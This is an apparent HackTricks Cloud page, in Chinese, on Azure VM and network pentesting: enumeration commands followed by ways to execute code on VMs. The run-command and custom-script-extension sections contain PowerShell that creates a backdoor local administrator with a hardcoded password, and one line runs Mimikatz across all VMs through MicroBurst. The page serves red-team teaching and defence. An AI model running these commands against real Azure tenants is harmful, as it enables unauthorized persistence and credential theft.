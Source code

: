 # Az - 虚拟机与网络

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 虚拟机是 Azure 提供的几种类型的 [按需、可扩展计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 之一。通常，当您需要对计算环境有比其他选择更多的控制时，您会选择虚拟机。本文提供了在创建虚拟机之前应考虑的事项、如何创建虚拟机以及如何管理虚拟机的信息。

## Azure 网络信息

Azure 网络包含 **不同的实体和配置方式。** 您可以在以下内容中找到不同 Azure 网络实体的简要 **描述、** **示例** 和 **枚举** 命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** 提供了一种安全、完全托管的 RDP（远程桌面协议）和 SSH（安全外壳）访问解决方案，通过 Azure 门户通过 SSL 进行访问。它集成在 Azure 虚拟网络中，允许使用私有 IP 进行 RDP 和 SSH 连接到虚拟机，避免了对公共 IP 的需求。这使其成为一种比传统方法更安全、更方便的替代方案，传统方法涉及公共 IP 分配和 NSG 规则配置以访问虚拟机。开发人员和 IT 人员可以通过他们的 Web 浏览器安全地从 Azure 门户访问虚拟机，从而简化了开发和测试环境的过程。

要列出您订阅中的所有 Azure Bastion 主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## 虚拟机枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **在虚拟机中进行AAD登录**

可以允许通过AzureAD认证的用户访问。例如，尝试访问一个**linux虚拟机**：`ssh username@azure-corp.com@1.1.1.1`（在尝试登录时，**使用与azurecorp相同的电子邮件**非常重要），您可能会遇到如下错误： 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照这些说明**前往 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭据，您将能够通过 SSH 连接（如果该用户具有足够的权限：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure 虚拟机 (VM) 扩展是 **小型应用程序**，用于在 **Azure VMs** 上提供部署后配置和自动化 **任务**。例如，如果虚拟机需要软件安装、杀毒保护或在其中运行脚本的能力，您可以使用 VM 扩展。

因此，如果您有权限进行写入，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) 是一个类似于 Ansible 的 PowerShell 工具，用于通过代码设置主机。DSC 与 Azure 集成，允许上传特定的配置文件。这些文件必须遵循严格的语法。值得注意的是，Azure 中的 DSC 扩展可以执行符合某些格式标准的文件中的命令，即使语法不符合 DSC 标准，如提供的图示所示。

这些命令的执行是通过 Az PowerShell 中的 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 函数来实现的。要求包括一个定义了函数的 **.PS1** 文件，并且该文件必须被压缩成 **.zip** 文件。尽管语法可能不准确，代码仍然会执行。然而，扩展会将执行状态标记为“失败”，并且由于状态被失败消息覆盖，命令的输出将不可见。

### VM Application Definitions

VM Application Definitions 允许将版本化的应用程序重复部署到 Azure VM。此资源支持跨 VM 的应用程序部署和更新。要设置此功能，需要几个步骤，涉及 Az PowerShell 中的命令，如 **`New-AzGalleryApplication`** 和 **`New-AzGalleryApplicationVersion`**。

通过这种方法执行应用程序或命令涉及 **"VMAppExtension"**，该扩展在应用程序应用到 VM 时自动安装。扩展从指定的 URI 检索文件，并将其命名为与应用程序完全相同，不带扩展名。为了正确执行文件，REST API 调用中的 "ManageActions" 字段必须配置为使用适当的扩展名重命名文件。此方法的设置完成后，将类似于提供的图示所示的结构。

然而，这种执行方法相对较慢，执行一个应用程序或命令大约需要 3-4 分钟。与此过程相关的文件存储在特定目录中（应用程序副本在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`，执行状态在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

这两种技术提供了在 Azure 环境中执行命令和部署应用程序的独特方式，各自具有不同的要求、步骤和考虑事项。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) 是 Azure 中的一项功能，允许在指定 HWG 的 Azure 虚拟机 (VM) 上执行在自动化帐户中配置的 Runbook。此执行通过安装在 VM 上的扩展来实现，该扩展将 Runbook 代码部署到 VM 上。此过程的一个重要方面是，实际凭据在执行中并不是一个因素，因为代码以提升的权限运行，具体为 **SYSTEM** 或 root，如提供的图示所示。

对于使用 Windows 10 VM 的用户，一个关键细节是必须为 Runbook 指定 PowerShell 版本。应设置为以 PowerShell 版本 5.1 而不是 7.1 运行。此要求源于 PowerShell 7.1 在这些 VM 上不是默认安装的，如果指定版本 7.1，则会导致脚本执行失败。

Azure 的这一功能提供了一种强大的方法，用于在混合环境中自动化和管理任务，允许在 Azure VM 上集中管理和执行任务。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

